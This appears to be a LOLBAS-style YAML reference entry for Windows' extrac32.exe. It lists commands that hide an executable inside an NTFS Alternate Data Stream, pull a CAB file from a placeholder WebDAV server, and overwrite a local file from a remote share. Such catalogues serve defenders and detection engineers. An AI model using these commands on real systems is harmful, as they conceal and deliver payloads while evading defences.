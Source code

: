 ```yaml
---
Name: Extrac32.exe
Description: Add ADS, Download
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: extrac32 C:\ADS\procexp.cab c:\ADS\file.txt:procexp.exe
    Description: 'Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.'
  - Command: extrac32 \\webdavserver\webdav\file.cab c:\ADS\file.txt:file.exe
    Description: 'Extracts the source CAB file into an Alternate Data Stream (ADS) of the target file.'
  - Command: extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
    Description: 'Copy the source file to the destination file and overwrite it.'
Full Path:
  - c:\windows\system32\extrac32.exe
  - c:\windows\sysWOW64\extrac32.exe
Code Sample: []
Detection: []
Resources:
  - https://oddvar.moe/2018/04/11/putting-data-in-alternate-data-streams-and-how-to-execute-it-part-2/
  - https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
  - https://twitter.com/egre55/status/985994639202283520
Notes: Thanks to Oddvar Moe - @oddvarmoe, egre55 - @egre55
---
```

